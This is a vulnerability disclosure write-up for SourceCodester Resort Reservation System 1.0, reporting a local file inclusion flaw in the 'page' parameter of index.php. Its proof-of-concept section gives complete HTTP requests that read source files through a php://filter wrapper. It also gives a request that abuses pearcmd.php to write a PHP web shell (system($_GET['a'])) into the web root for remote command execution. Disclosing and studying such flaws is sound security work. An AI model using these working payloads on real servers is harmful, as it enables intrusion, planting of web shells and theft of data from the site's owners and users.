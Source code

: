 # SourceCodester Resort Reservation System 1.0 has a local file inclusion vulnerability
## Software
- Software: Resort Reservation System 1.0
- Software Link: https://www.sourcecodester.com/php/16447/resort-reservation-system-php-and-sqlite3-source-code-free-download.html
- Vulnerability Type: local file inclusion
- Attack Type: Remote
- Vendor of Product: Sourcecodester

## Description
SourceCodester Resort Reservation System 1.0 allows local file inclusion via the page parameter after users logged in, this vulnerability leads to remote attackers execute system commands by including pearcmd.php

## Vulnerability Code
- index.php
![](https://github.com/Yesec/Resort-Reservation-System/assets/19534204/4fcede75-1f2b-46ee-8af8-133905bafc8c)


## POC
- Local File Inclusion:
```http
GET /index.php?page=php://filter/read=convert.base64-encode/resource=DBConnection HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=618bc77tb1eq1tare3i7oic4u6

```
![](https://github.com/Yesec/Resort-Reservation-System/assets/19534204/5736f5b7-549c-4ba1-8ffa-6b4ec13f6e7f)



- Execute system commands:

```http
GET /index.php?page=/../../../../usr/share/php/pearcmd&+config-create+/&<?=system($_GET['a'])?>+/var/www/html/1.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=618bc77tb1eq1tare3i7oic4u6

```
The file path for pearcmd.php needs to be changed according to the actual situation. In the default PHP Docker environment, the file path for pearcmd.php is `/usr/local/lib/php/pearcmd.php`.
![](https://github.com/Yesec/Resort-Reservation-System/assets/19534204/8b2d8925-826b-4946-8163-46bd55e7d266)



requests 1.php to execute system commands:
![](https://github.com/Yesec/Resort-Reservation-System/assets/19534204/f21ab037-17be-4d46-ac5b-e2db9169abb8)

